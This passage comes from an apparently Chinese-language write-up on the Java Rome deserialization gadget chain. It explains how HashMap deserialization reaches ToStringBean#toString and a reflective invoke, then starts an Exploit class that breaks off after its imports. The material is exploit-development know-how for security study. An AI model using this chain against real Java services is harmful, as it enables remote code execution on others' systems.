 ```java
    } catch (Exception var8) {
        sb.append("\n\nEXCEPTION: Could not complete " + this._obj.getClass() + ".toString(): " + var8.getMessage() + "\n");
    }

    return sb.toString();
}
```

<div align=center><img src="./images/3.png"></div>

# EXP
从上文分析的前置知识不难看出`Rome`链的调用过程, 先利用`HashMap`反序列化来触发`ObjectBean#hashCode`方法, 接着在`EqualsBean#beanHashCode`会进一步调用`ObjectBean`封装的`Object#toString`方法, 从而调用的`ToStringBean#toString`方法, 在第二个`toString`方法中触发`pReadMethod#invoke`, 从而达到恶意反序列化的操作. 根据上述分析, 构造相应的`Exploit`如下:

```java
package org.h3rmesk1t.Rome;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.*;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Observable;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/6 1:49 上午
 */
public class Exploit {

```